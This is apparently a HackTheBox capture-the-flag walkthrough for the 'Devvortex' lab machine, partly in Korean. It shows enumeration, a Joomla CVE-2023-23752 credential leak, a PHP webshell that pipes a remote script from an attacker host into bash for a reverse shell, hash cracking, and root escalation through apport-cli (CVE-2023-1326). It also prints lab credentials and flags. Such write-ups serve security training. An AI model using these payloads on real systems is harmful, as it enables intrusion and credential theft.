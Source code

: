 # HackTheBox Walkthrough - Devvortex

**Machine Name**: Devvortex  
**Target IP**: 10.129.229.146  
**Operating System**: Ubuntu Linux  
**Difficulty**: [Not specified]  
**Objective**: Exploit Joomla RCE and CVE-2023-1326 to gain root

---

## 🧭 Enumeration

### 🔍 Nmap Scan

```bash
nmap -sV -sC -oA nmap/Devvortex 10.129.229.146
```

**Open Ports:**
- 22/tcp - OpenSSH 8.2p1 (Ubuntu)
- 80/tcp - nginx 1.18.0 (Ubuntu)

```bash
/etc/hosts 추가:
10.129.229.146  devvortex.htb
```

---

## 🌐 Web Enumeration

- 기본 페이지에서 정보 없음 → **Subdomain Enumeration** 시도:

```bash
ffuf -w /usr/share/wordlists/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt:FUZZ -u http://devvortex.htb -H 'Host: FUZZ.devvortex.htb' -fw 4 -t 100
```

- 발견: `dev.devvortex.htb`

```bash
/etc/hosts 추가:
10.129.229.146  dev.devvortex.htb
```

### Joomla CMS 발견

- 버전 확인: **4.2.6**
- 취약점: **CVE-2023-23752**

```bash
ruby exploit.rb http://dev.devvortex.htb
# 결과에서 DB 사용자: lewis / 패스워드: P4ntherg0t1n5r3c0n##
```

관리자 로그인 성공: `lewis / P4ntherg0t1n5r3c0n##`

### Webshell 업로드 및 Reverse Shell

```php
<?php system("curl 10.10.14.72:80/rev.sh|bash"); ?>
```

Reverse shell 연결 및 stable shell 전환 후 DB에서 평문 자격증명 획득

---

## 🧪 MySQL 내부 확인

```sql
select * from sd4fg_users;
```
- 사용자: `logan`
- bcrypt 해시 크랙: `tequieromucho`

```bash
ssh logan@10.129.229.146
Password: tequieromucho
```

### 🧑‍💻 User Flag

```bash
cat /home/logan/user.txt
# => 73fb4da8154226194662a390d14722eb
```

---

## 👑 Privilege Escalation

```bash
sudo -l
# (ALL : ALL) /usr/bin/apport-cli
```

- **CVE-2023-1326** exploitable:

```bash
echo "ProblemType: Crash" >> /tmp/test.crash
sudo /usr/bin/apport-cli -c /tmp/test.crash
# View report → press V → !/bin/bash
```

### 🏁 Root Flag

```bash
cat /root/root.txt
# => 30ab4a0362b3f1a679ad98976266883d
```

---